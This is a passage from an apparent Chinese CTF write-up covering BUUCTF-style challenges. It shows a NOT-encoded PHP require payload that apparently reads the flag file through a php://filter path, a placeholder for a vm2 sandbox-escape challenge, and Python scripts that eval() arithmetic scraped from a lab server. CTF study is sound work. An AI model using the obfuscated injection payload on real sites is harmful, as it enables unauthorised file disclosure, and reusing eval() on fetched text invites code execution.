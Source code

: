 `fl%61g[%61rg]=}require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//
`![在这里插入图片描述](https://img-blog.csdnimg.cn/2a7e6afdf471441f95ea745b4d4c9961.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/149b042920c5466db7be78966a22347a.png)

# [HFCTF2020]JustEscape(vm2沙箱逃逸)
待补待补待补nodejs

# [GXYCTF2019]StrongestMind

编写脚本

通过正则匹配获取页面上表达式，计算后post传参
>[学习文章](https://blog.csdn.net/shinygod/article/details/124141957)

官方exp：

```python
from requests import *
import re


s = session()
a = s.get("http://172.21.4.12:10044/index.php")
pattern = re.findall(r'\d+.[+-].\d+', a.text) 
c = eval(pattern[0])
a = s.post("http://172.21.4.12:10044/index.php", data = {"answer" : c})
for i in range(1000):
	pattern = re.findall(r'\d+.[+-].\d+', a.text) 
	c = eval(pattern[0])
	print(c)
	a = s.post("http://172.21.4.12:10044/index.php", data = {"answer" : c})
print(a.text)

```

```python
import requests
import re
import time

url = 'http://288076b5-3a7f-4530-8794-20da1e87d0bc.node4.buuoj.cn:81/'
session = requests.session()
req = session.get(url).text
flag = ""

for i in range(1010):
    try:
        result = re.findall("\<br\>\<br\>(\d.*?)\<br\>\<br\>",req)#获取[数字]
        result = "".join(result)#提取字符串
        result = eval(result)#运算
        print("time: "+ str(i) +"   "+"result: "+ str(result))

        data = {"answer":result}
        req = session.post(url,data=data).text
        if "flag{" in req:
            print(re.search("flag{.*}", req).group(0)[:50])
            break
        time.sleep(0.2)#防止访问太快断开连接
    except:
        print("[-]")

```
